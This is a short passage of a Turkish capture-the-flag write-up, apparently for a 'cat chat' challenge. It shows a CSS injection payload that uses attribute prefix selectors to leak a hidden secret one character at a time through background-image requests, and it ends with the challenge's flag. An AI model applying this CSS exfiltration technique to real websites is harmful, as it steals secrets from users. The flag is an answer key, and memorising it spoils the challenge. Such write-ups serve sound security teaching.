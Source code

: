 ```css

span[data-secret^=A] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=A);
}

...

span[data-secret^=Z] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=Z);
}

span[data-secret^=0] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=0);
}

...

span[data-secret^=9] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=9);
}

span[data-secret^=_] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=_);
}
```

Dedik ve flag'in ilk harfini aldık

![yrmm](cat-chat6.png)

Tek tek yapmak yerine azıcık otomize etmek gerek. Yarışma esnasında yazdığımız bettiği bulamıyorum.

![yrmm](cat-chat7.png)

Ve flag **CTF{L0LC47S_43V3R**

